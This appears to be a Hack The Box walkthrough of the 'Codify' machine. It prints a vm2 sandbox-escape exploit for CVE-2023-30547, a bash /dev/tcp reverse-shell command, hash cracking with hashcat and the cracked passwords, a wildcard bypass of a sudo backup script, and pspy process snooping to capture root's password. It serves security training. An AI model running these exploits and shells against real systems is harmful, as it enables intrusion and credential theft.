# Codify

Codify is a easy machine on HTB.

## Enumeration

First we check the open port via **nmap**.




The ports 22, 80 and 3000 are open.
Let's check the port 80 first. For that we need to add the **domain** to our **hosts** file.

```bash
echo "10.10.11.239   codify.htb" | sudo tee -a /etc/hosts
```



It's a website in which we can test our **Nest.js** code. So a **sandbox** for Nest.js.
Let's perform dirsearch on this website.



## Foothold

Well nothing much, but in the about page it say that the use the **vm2** library. And after a little search we found the [CVE-2023-30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547). For the poc there is this payload which allow you to do remote code execution:

```javascript
const {VM} = require("vm2");
const vm = new VM();
const code = `
err = {};
const handler = {
getPrototypeOf(target) {
(function stack() {
new Error().stack;
stack();
})();
}
};
const proxiedErr = new Proxy(err, handler);
try {
throw proxiedErr;
} catch ({constructor: c}) {
c.constructor('return process')().mainModule.require('child_process').execSync('id');
}
`
console.log(vm.run(code));
```

This code will execute the `id` command, but we want a **reverse shell** so we will replace `id` by this:

```bash
bash -c 'exec bash -i &>/dev/tcp/0.0.0.0/0000 <&1'
```

Replace `0.0.0.0` by your **ip** and `0000` by the port of your **netcat** listener use.



We have our revshell as user **svc**!

## User flag

We found a interesting file in `/var/www/contact`. It's a **sqlite3** database.



Let's open it with the command:
```bash
sqlite3 tickets.db
```
Use `.tables` to show all the tables and `select * from users;` to see what the users tables contain.



Copy the **hash** and paste it to a file. We will use `hashcat` to find the password. First we need to find what **type** of hash we have.
So we will use hashcat in auto mode detection for it.

```bash
hashcat hash -a 0 /usr/share/wordlists/rockyou.txt.gz
```
With "hash" being the file where you past the hash.



It seems to be a **bcrypt** hash, so we will use the option `-m 3200`.

```bash
hashcat hash -a 0 -m 3200 /usr/share/wordlists/rockyou.txt.gz
```


And we have it! Let's try to login as **joshua** with `joshua:spongebob1`

```bash
ssh joshua@10.10.11.239
```


## Privilege escalation

Check if we can execute some command with root privilege with `sudo -l`.



And this is the **mysql-backup.sh** file:

```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

So the script ask for a password, the **root** password possibly because the user for the database is root. After that it will create a backup directory to dump the database in it and finaly change the permission on the backup directory. There is two problems in this script.
- The first one is how the password verification is handled. If the right parameter is not quoted, `==` sign inside a `[[]]` will perform patern matching comparison rather a strict string comaparison. So when the scripts ask you for the password and you enter `*` it will work.
- The second one is that it use the password from `/root/.creds` and not the password provided by the user to access the database via mysql.



Yep, input `*` for the password confirmation zork.
Now we will use **pspy** to retrieve the real password. How? Because pspy is a process snooping tool. So we need to install it, launch it and in another **ssh** sessions launch the msql-backup script.

Get pspy in your local machine.
```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s
```

Start a python server so we can download the binary to the remote machine.

```bash
python3 -m http.server 8000
```
And curl the file on the remote machine

```bash
curl YOUR_IP:8000/pspy64s --output pspy64s
```

Don't forget to `chmod +x pspy64s` the file. The commad to start pspy is `./pspy64s -i 1`.



We have the password! Let's try to login a `root:kljh12k3jhaskjh12kjh3`


